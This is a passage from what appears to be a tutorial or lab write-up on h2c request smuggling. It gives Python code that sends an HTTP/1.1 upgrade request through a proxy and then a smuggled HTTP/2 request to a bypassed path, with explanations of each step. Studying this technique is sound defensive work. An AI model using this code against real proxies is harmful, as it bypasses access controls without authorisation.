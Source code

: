 > We point to a TCP connection/socket using file descriptors (as everything in linux is a file), hence
why we return the socket.

#### `2. Sending the Initial HTTP/1.1 Request`


```python
def send_initial_request(connection, proxy_url):
    path = proxy_url.path or "/"

    request = (
        b"GET " + path.encode('utf-8') + b" HTTP/1.1\r\n" +
        b"Host: " + proxy_url.hostname.encode('utf-8') + b"\r\n" +
        b"Accept: */*\r\n" +
        b"Accept-Language: en\r\n" +
        b"Upgrade: h2c\r\n" +
        b"HTTP2-Settings: " + b"AAMAAABkAARAAAAAAAIAAAAA" + b"\r\n" +
        b"Connection: Upgrade, HTTP2-Settings\r\n" +
        b"\r\n"
    )
    connection.sendall(request)
```

* The `HTTP2-Settings` headers defines the terms by which client and server communicate (max concurrent streams...etc).
* `Connection: Upgrade, HTTP2-Settings` tells the server that the request wants to upgrade to HTTP/2 and that it
wants to use the HTTP2-Settings for upgrade negotiation.

#### `3. Creating H2 Connection Object & Sending Smuggled Request`

Assuming the latter request gave a `101 Switching Protocols` status code. Let's now
send our HTTP/2 requests.

HTTP/2 is a binary framed protocol. In simple terms, it doesn't depend on raw text
data like Http/1.x do (\r\n to be precise). So data is encapsulated in clear binary
format. The object that handles this encapsulation is `H2Connection`.

It’s like a translator: you tell it what you want to say (e.g., send a request), and it gives you raw bytes to send over the wire.

```python
import h2.connection

# This doesn't create a network connection
# h2_connection only gives binary data that WE OURSELVES send through the original tcp connection
h2_connection = h2.connection.H2Connection()

def sendSmuggledRequest(h2_connection, connection, args):
    stream_id = h2_connection.get_next_available_stream_id()

    smuggled_request_headers = [
        (':method', 'GET'),
        (':scheme', 'http'),
        (':authority', 'localhost'),
        (':path', '/api/noopsy'), # the bypassed path
    ]
    # Prepare the headers from python's format into binary format
    h2_connection.send_headers(stream_id, smuggled_request_headers)

    # Actually send the data
    connection.sendall(h2_connection.data_to_send())
```
